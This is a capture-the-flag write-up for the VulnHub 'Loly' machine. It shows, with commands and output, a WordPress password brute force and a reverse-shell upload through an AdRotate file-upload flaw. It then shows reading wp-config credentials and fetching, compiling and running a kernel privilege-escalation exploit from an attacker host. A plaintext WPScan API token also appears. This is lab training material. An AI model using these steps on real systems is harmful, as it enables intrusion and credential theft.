



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Loly

## Summary

[Loly](https://www.vulnhub.com/entry/loly-1,538/) is an <mark style="color:yellow;">intermediate-rated</mark> box


## Recon

```bash
$ nmap -T4 --min-rate 10000 -A -open -p- loly

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
```


```bash
$ whatweb http://loly

http://loly [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.3 (Ubuntu)], IP[192.168.202.121], Title[Welcome to nginx!], nginx[1.10.3]
```



```bash
$ ffuf -u http://loly/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -c -ac -e .php,.txt

________________________________________________
wordpress               [Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 40ms]
```


## Local.txt

As we found out during dirbusting, this is a wordpress blog, so we can start by enumerating with `wp-scan`.&#x20;

```bash
$ wpscan --url http://loly/wordpress --enumerate
<SNIP>

Interesting Finding(s):

<SNIP>

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://loly/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://loly/wordpress/, Match: 'WordPress 5.5'

<SNIP>

[i] User(s) Identified:

[+] loly
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
<SNIP>
```

Based on the `wp-scan`'s findings and manually exporing the application we have some potential attack vectors: we know that the WP version is  `5.5`, so we can check for any known vulnerabilities. In addition, the login page redirects to us to another domain (`loly.lc/wp-login`), which we will need to re-scan with `wp-scan`, and includes verbose error messages which we can use to enumerate valid users (Figure 1).

<figure><figcaption><p>Figure 1: The login functionality includes verbose error messages.</p></figcaption></figure>

No other user than `loly` seems to exist, so we can try brute force its password.


```bash
$ sudo wpscan --password-attack xmlrpc -t 20 --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando
Trying loly / kisses Time: 00:00:03 <       > (180 / 14344572)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
 
 <SNIP>
```


Although, we managed to find `loly`'s password and we now have administrative access to the application, there is no Theme Editor tab under Appearance, so we don't have the [typical way of getting a reverse shell](../../tools/web/cms/wordpress.md#rce). We can grab a [WPScan token](https://wpscan.com/) and scan `loly.lc` for potential plugin-related vulnerablities.


```bash
$ sudo wpscan --url http://loly.lc/wordpress --enumerate --api-token Rn8AfqvZBKuDxllbMCWYSYff2YNyDhTGhgLr0SHOy7I -e vp

<SNIP>
 | [!] Title: AdRotate < 5.13.3 - Admin+ Double Extension Arbitrary File Upload
 |     Fixed in: 5.13.3
 |     References:
 |      - https://wpscan.com/vulnerability/a670dc87-ed79-493a-888d-afd7cb99269e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1206
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/9f92219a-e07e-422d-a9f2-dbe4fbcd5f55
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt
<SNIP>
```


There are five potential vulnerablities for the `adrotate` plugin, including a double extension arbitraty file upload. We can find more details about it by visiting the [referenced link](https://wpscan.com/vulnerability/a670dc87-ed79-493a-888d-afd7cb99269e/):

> The plugin is vulnerable to arbitrary file uploads due to missing file extension sanitization in the adrotate\_insert\_media() function. This makes it possible for authenticated attackers, with administrator-level access and above, to upload arbitrary files with double extensions on the affected site's server which may make remote code execution possible. This is only exploitable on select instances where the configuration will execute the first extension present.

Based on the information we have, we can try uploading a reverse shell using the [double extension method](../../tl-dr/web/file-uploads.md#blacklists-whitelists) leveraging the fact that `adrotate` lets us know which extensions are allowed as well as the `zip` files are automatically extracted (Figure 2).

<figure><figcaption><p>Figure 2: Adrotate's accepted file extensions.</p></figcaption></figure>

```bash
$ zip shell.zip pentestmonkey_revshell.php
```

The file was successfully saved, confirmed by the "_Banner image saved_" message, and we can access it under the `/banners` directory.


```bash
$ curl http://loly.lc/wordpress/wp-content/banners/pentestmonkey_revshell.php
```



```bash
$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.202.121] 44676
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 08:07:51 up  2:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


We can first [upgrade our reverse shell](../../tools/shells/upgrade.md) and then search for the `local.txt` file.

```bash
www-data@ubuntu:/$ find / -name local.txt -type f 2>/dev/null
/var/www/local.txt
```

## Proof.txt

Since we are dealing with a WP site, we can start by reviewing its `wp-config` file.


```bash
www-data@ubuntu:~/html/wordpress$ cat wp-config.php

<SNIP>
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
<SNIP>
```


Using the password found (`lolyisabeautifulgirl`) we can switch user to `loly` and check if the account has any `sudo` permissions; unfortunately, this is not the case.


```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password:
loly@ubuntu:/var/www/html/wordpress$ id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
loly@ubuntu:/var/www/html/wordpress$ sudo -l
[sudo] password for loly:
Sorry, user loly may not run sudo on ubuntu.
```


Enumerating the MySQL database as well as searching for `suid` files do not help us much; we can continue by checking the kernel's version.


```bash
loly@ubuntu:/var/www/html/wordpress$ uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```


Searching for kernel exploits using (`searchsploit ubuntu 4.4.0`) comes back with some potential local privilege escalation scripts (Figure 3).

<figure><figcaption><p>Figure 3: Searching for PoC exploits.</p></figcaption></figure>

We can download and transfer the `45010.c` file to our target, so we can compile it and execute it there.


```bash
$ searchsploit -m 45010.c
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/x7331/web200/box/45010.c

$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```


Before downloading the script, we will move to a writable directory (`/tmp`).


```bash
loly@ubuntu:/var/www/html/wordpress$ cd /tmp
loly@ubuntu:/tmp$ wget http://192.168.45.222:8888/45010.c
--2024-09-02 09:45:19--  http://192.168.45.222:8888/45010.c
Connecting to 192.168.45.222:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13176 (13K) [text/x-csrc]
Saving to: ‘45010.c’

45010.c        100%[===============================>]  12.87K  --.-KB/s    in 0.005s

2024-09-02 09:45:19 (2.60 MB/s) - ‘45010.c’ saved [13176/13176]
loly@ubuntu:/tmp$ gcc 45010.c -o privesc
loly@ubuntu:/tmp$ chmod +x privesc
loly@ubuntu:/tmp$ ./privesc
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880035c23900
[*] Leaking sock struct from ffff8800340f4780
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88007713f540
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88007713f540
[*] credentials patched, launching shell...
# ls /root
proof.txt  root.txt
```

